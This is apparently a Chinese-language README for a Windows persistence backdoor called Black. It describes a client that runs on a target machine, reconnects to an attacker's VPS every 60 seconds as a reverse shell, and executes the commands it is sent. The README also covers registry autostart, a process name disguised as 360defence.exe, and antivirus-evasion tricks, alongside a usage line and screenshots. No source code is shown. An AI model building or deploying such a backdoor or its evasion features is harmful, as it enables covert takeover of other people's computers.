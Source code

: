 ## Windows权限维持工具<1.4>

### version 1.0

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- ~~混淆代码，初步免杀~~

##### ~使用方法：

> ```
> # Windows权限维持后门、持续反弹shell，60s/1次
> Black v1.0
> Usage: black.exe r_ip r_port
> author: NOVASEC_黑仔
> if cmd == quit:
>  关闭管道，临时退出
> elif cmd == exit:
>  程序结束，永久退出
> else:
> 执行命令，回显结果
> ```

##### **~使用效果：**

正常回显

![image-20210330174558324](https://user-images.githubusercontent.com/33219753/121507501-483dcb80-ca17-11eb-9132-18e9b45a831e.png)



暂时退出、断开后，60s再次连接，继续执行命令

![image-20210330174838523](https://user-images.githubusercontent.com/33219753/121507542-512e9d00-ca17-11eb-8bfe-6f41f46eccba.png)


永久退出、断开连接

![image-20210330175403279](https://user-images.githubusercontent.com/33219753/121507593-5ab80500-ca17-11eb-902c-1a746d6dd4fa.png)

靶机端口及进程情况：

![image-20210330175221694](https://user-images.githubusercontent.com/33219753/121507627-63104000-ca17-11eb-99b6-8d2dbca9e422.png)


![image-20210330175046964](https://user-images.githubusercontent.com/33219753/121507648-69062100-ca17-11eb-823a-10070b7ed93d.png)


##### ~免杀情况：

![image-20210330173705993](https://user-images.githubusercontent.com/33219753/121507680-71f6f280-ca17-11eb-8a8a-0f1e5d0e1e6d.png)


![image-20210330170259060](https://user-images.githubusercontent.com/33219753/121507747-80dda500-ca17-11eb-83e2-5bda8f65c4e9.png)


被检测出了，建议隔离

![image-20210330170745685](https://user-images.githubusercontent.com/33219753/121507784-8a670d00-ca17-11eb-94d3-c16b6cb4875a.png)

> 在之前的基础上
>
> 增加花指令
>
> 增加程序图标
>
> 其他不变（进程名360defence.exe，双进程）

![image-20210331232840781](https://user-images.githubusercontent.com/33219753/121507823-93f07500-ca17-11eb-986e-50039afdd964.png)


![image-20210331232844697](https://user-images.githubusercontent.com/33219753/121507856-9a7eec80-ca17-11eb-8d0e-a5c1c1b5f93f.png)


##### **~后期规划**：

- 进行出网判断
- 流量加密
- 进阶免杀
- 等等...

### version 1.1

- 不再提供免杀
- 修复bug，更稳定

### version 1.2

- 增加注册自启动功能

运行前：

![image-20210610164417507](https://user-images.githubusercontent.com/33219753/121507914-a79bdb80-ca17-11eb-890a-222a5bc39dc1.png)


运行后：

![image-20210610153915575](https://user-images.githubusercontent.com/33219753/121507939-af5b8000-ca17-11eb-9cd7-c98cf646553e.png)


![image-20210610165050508](https://user-images.githubusercontent.com/33219753/121507976-b84c5180-ca17-11eb-976b-d95a93d6258e.png)


重启验证：

![image-20210610175439655](https://user-images.githubusercontent.com/33219753/121507997-bc786f00-ca17-11eb-864c-d2f156f522c9.png)

![image-20210610181110442](https://user-images.githubusercontent.com/33219753/121508017-c00bf600-ca17-11eb-9061-7c550e2f368f.png)

### version 1.4

- 新增Server端，取代NC，一对一控制（待优化）
- 增加Logo输出
- 简单的传输加密（待优化）
- 缺陷：线程回收问题

S启动：
![image-20210620145256132](https://user-images.githubusercontent.com/33219753/122665255-c436d100-d1d8-11eb-9640-728cd47c740c.png)
S命令执行
![image-20210620145714398](https://user-images.githubusercontent.com/33219753/122665264-cd27a280-d1d8-11eb-9c9a-14842dfcf752.png)
C端：
![image-20210620145923994](https://user-images.githubusercontent.com/33219753/122665268-d31d8380-d1d8-11eb-9695-6c4c7eaab1ba.png)
测试服务中断：
![image-20210620150124277](https://user-images.githubusercontent.com/33219753/122665274-dca6eb80-d1d8-11eb-8403-425d8b490b09.png)
等待60s，又回来了
![image-20210620150152616](https://user-images.githubusercontent.com/33219753/122665279-e6c8ea00-d1d8-11eb-8d82-ab16e128f6d0.png)








